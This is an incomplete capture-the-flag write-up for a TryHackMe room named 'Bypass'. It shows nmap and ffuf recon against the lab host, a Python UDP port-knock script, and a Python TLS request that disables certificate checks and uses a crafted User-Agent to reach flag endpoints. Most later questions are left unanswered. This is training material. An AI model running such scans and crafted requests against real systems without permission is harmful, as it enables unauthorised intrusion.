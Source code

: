 # Bypass

**Room Link:** [https://tryhackme.com/r/room/bypass](https://tryhackme.com/r/room/bypass)



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=1?

**Kali**

```
nmap -A cctv.thm
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u https://cctv.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

I first tried using knock but it wasn't working, probably because it's not actually sending a message.

**Kali**

```
git clone https://github.com/grongor/knock.git
cd knock
./knock cctv.thm 5000:udp -v
```

**knock.py**

```
import socket

port = 5000
host = 'cctv.thm'
msg = 'Knock,Knock...TheSysRat is here!'.encode()

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.bind(('', 5000))
    s.sendto(msg, (host, port))
    s.close()
    print('Packet send correctly')
except:
    print('Something wrong')
```

**Kali**

```
python knock.py 
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=2?

**knock.py**

```
import socket
import ssl

# Target server and port
host = "cctv.thm"
port = 443  # HTTPS port for TCP request

# Target path
path = "/fpassword.php?id=2"

# Custom headers with User-Agent
request = f"GET {path} HTTP/1.1\r\n" \
          f"Host: {host}\r\n" \
          f"User-Agent: I am Steve Friend\r\n" \
          f"Connection: close\r\n\r\n"

# Create an SSL context that ignores certificate verification
context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

# Create a TCP socket and wrap it in SSL
with socket.create_connection((host, port)) as sock:
    with context.wrap_socket(sock, server_hostname=host) as ssock:
        # Send the request
        ssock.sendall(request.encode())

        # Receive the response
        response = b""
        while True:
            data = ssock.recv(4096)
            if not data:
                break
            response += data

# Decode and print the response to get the flag
print(response.decode())

```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=3?



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=4?



What is the flag value after accessing the endpoint cctv.thm/fpassword.php?id=5?



What is the password value for the first layer of security for the CCTV web panel?



What is the lsb\_release -r -s command output from the attached machine?



What is the username for the CCTV web panel?



What is the flag value after logging into the CCTV web panel?



